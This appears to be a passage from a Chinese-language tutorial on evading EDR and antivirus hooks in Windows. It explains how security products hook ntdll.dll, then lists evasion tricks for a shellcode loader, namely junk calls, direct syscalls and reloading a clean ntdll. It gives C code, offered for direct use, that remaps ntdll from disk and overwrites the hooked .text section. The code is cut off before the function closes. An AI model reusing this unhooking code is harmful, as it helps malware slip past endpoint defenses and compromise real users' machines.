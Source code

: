 如何理解？

先介绍一下 windowsapi 的调用链

我们常用的一些 windowsapi 函数都存储在 kernel32.dll 的动态链接库中

比如说我们使用 VirtualAlloc 函数，那么他是如何被一步步调用的呢

首先是在 3 环，即用户层的 kernel32.dll 中调用 kernelVirtualAlloc

然后 kernelVirtualAlloc 去调取 ntdll 中的 NtVirtualAlloc

最后 NtVirtualAlloc 通过 syscall 的方式去内存层实现分配内存

而杀软会对这些 dll 文件进行 hook 监控

当我们再调用 VirtualAlloc 时，edr 会修改 ntdll 中的该函数使其 jmp 到 edr 内置的 dll 中，edr 会

通过你的函数调用去查杀

**那么重点来了，如何去对抗呢？**

**1.在 shellcodeloader 时添加大量垃圾函数或者执行一些东西打乱 edr 查杀**

**2.直接通过 syscall 绕过 edr 的 hook(某数字杀软晶核的环境下依然会被检测到)**

**3.重新加载一份干净的 ntdll 文件**

这里着重给大家介绍第三种，直接附上源码安心食用即可

```php
int main()
{
    HANDLE process = GetCurrentProcess();
    MODULEINFO mi = {};
    HMODULE ntdllModule = GetModuleHandleA("ntdll.dll");
    GetModuleInformation(process, ntdllModule, &mi, sizeof(mi));
    LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;

    HANDLE ntdllFile = CreateFileA("c:\\windows\\system32\\ntdll.dll",
  GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
    HANDLE ntdllMapping = CreateFileMapping(ntdllFile, NULL, 
  PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
    LPVOID ntdllMappingAddress = MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);

    PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
    PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase + 
  hookedDosHeader->e_lfanew);

    for (WORD i = 0; i < hookedNtHeader->FileHeader.NumberOfSections; i++) {
        PIMAGE_SECTION_HEADER hookedSectionHeader = 
    (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) 
    + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));

        if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {
            DWORD oldProtection = 0;
            bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + 
      (DWORD_PTR)hookedSectionHeader->VirtualAddress), 
      hookedSectionHeader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
            memcpy((LPVOID)((DWORD_PTR)ntdllBase + 
      (DWORD_PTR)hookedSectionHeader->VirtualAddress), 
      (LPVOID)((DWORD_PTR)ntdllMappingAddress +
      (DWORD_PTR)hookedSectionHeader->VirtualAddress),
      hookedSectionHeader->Misc.VirtualSize);
            isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase 
      + (DWORD_PTR)hookedSectionHeader->VirtualAddress), 
      hookedSectionHeader->Misc.VirtualSize, oldProtection, &oldProtection);
        }
    }
    CloseHandle(process);
```